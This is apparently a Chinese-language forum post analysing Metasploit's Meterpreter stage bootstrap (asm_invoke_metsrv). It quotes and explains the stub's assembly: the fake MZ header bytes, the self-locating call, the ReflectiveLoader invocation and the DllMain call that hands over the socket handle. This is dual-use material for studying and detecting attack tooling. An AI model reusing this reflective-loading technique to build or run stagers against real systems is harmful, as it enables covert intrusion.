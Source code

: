 我们看一下asm\_invoke\_metsrv函数，这个函数调用了ReflectiveLoader函数，接着定位到了stages结束的地址。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-f69c21d7ebb31ef516d6f17c348c0b44349f02ca.png)

```c
dec ebp ; 'M'//无效代码 
pop edx ; 'Z'//无效代码 
call $+5 ; call next instruction 
pop ebx ; get the current location (+7 bytes) 
push edx ; restore edx 
inc ebp ; restore ebp 
push ebp ; save ebp for later 
mov ebp, esp ; set up a new stack frame 
; Invoke ReflectiveLoader() 
; add the offset to ReflectiveLoader() (0x????????) 

add ebx, #{"0x%.8x" % (opts[:rdi_offset] - 7)} 
call ebx ; invoke ReflectiveLoader() 
; Invoke DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr) 
; offset from ReflectiveLoader() to the end of the DLL 

add ebx, #{"0x%.8x" % (opts[:length] - opts[:rdi_offset])}
```

前两行的代码，没什么实际功能，只是为了stages能被识别为pe文件，因为这两个汇编的字节码是0x4d 0x5a对应pe结构中的MZ

pop ebx将当前地址放到了ebx中，下面几行是恢复被修改的寄存器，保存栈底和提升栈顶

```c
add ebx, #{"0x%.8x" % (opts[:rdi_offset] - 7)}//基地址+偏移=真正函数地址 
call ebx ; invoke ReflectiveLoader() 
; Invoke DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr) 
; offset from ReflectiveLoader() to the end of the DLL 
add ebx, #{"0x%.8x" % (opts[:length] - opts[:rdi_offset])}
```

先说一下call 后面的地址是怎么来的，call 地址=目标地址-call下一条指令地址

来看下这个指令add ebx, #{"0x%.8x" % (opts\[:rdi\_offset\] - 7)}，代码中的rdi\_offset是ReflectiveLoader函数的偏移地址。

这句汇编通过基地址+偏移得到真正的ReflectiveLoader函数地址，准备调用，这里说下为啥-7。

现在ebx中是pop ebx的地址，在pop ebx前面还有三条指令 dec ebp,pop edx,call $+5，这三条指令加到一起的长度是7个字节。

而要得到一个函数的地址应该是基地址+偏移，在这里的代码中，真正的基地址应该是dec ebp这里，而不是pop ebx这里，dec ebp的地址+ReflectiveLoader函数的偏移才是真正的ReflectiveLoader函数地址，而不是pop ebx的地址+ReflectiveLoader的偏移，所以pop ebx的地址要-7个字节回到dec ebp这里。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-1035b2fc6ff208fc8a8937641d3caaafbfd5fb9b.png)  
接着调用了 call ebx执行了ReflectiveLoader函数，ReflectiveLoader函数主要是解析dll的pe信息，并根据这些信息重新把dll写入到内存中，然后修复dll的各种表，修复完成后会使用DLLMETASPLOIT\_ATTACH调用dllmain函数，接着会把dllmain函数地址返回到eax寄存器中。

add ebx, #{"0x%.8x" % (opts\[:length\] - opts\[:rdi\_offset\])}这行主要是定位到dll结束的地址，因为length是dll的总大小，它-reflectiveLoader函数的偏移就得到了剩余部分的大小，接着又让ebx+剩余部分大小=dll结束地址

```c
mov [ebx], edi ; write the current socket/handle to the config//保存socket句柄到ebx的地址中 
push ebx ; push the pointer to the configuration start 

push 4 ; indicate that we have attached 

push eax ; push some arbitrary value for hInstance 

call eax ; call DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr)
```
